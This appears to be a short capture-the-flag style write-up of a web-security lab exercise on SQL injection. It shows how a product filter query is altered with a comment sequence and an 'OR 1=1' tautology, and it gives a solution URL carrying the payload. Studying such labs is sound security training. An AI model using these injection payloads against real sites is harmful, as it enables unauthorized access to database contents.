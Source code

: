 
## SQL Injection 1:
### Analysis:
#### Original Query:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

-  This query selects all products from the `products` table where the `category` is 'Gifts' and the product is `released`.

#### Injected Query 1:

```sql
SELECT * FROM products WHERE category = 'Gifts' --' AND released = 1
```

- The `--` sequence is used to comment out the rest of the SQL query.
- The `AND released = 1` part is ignored, potentially displaying all products in the 'Gifts' category, regardless of their release status.

#### Injected Query 2:
```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

- The condition `OR 1=1` is always true.


Solution : https://0a9e009b03fe6a7d80663a5b004a0029.web-security-academy.net/filter?category=Gift%27+OR+1=1--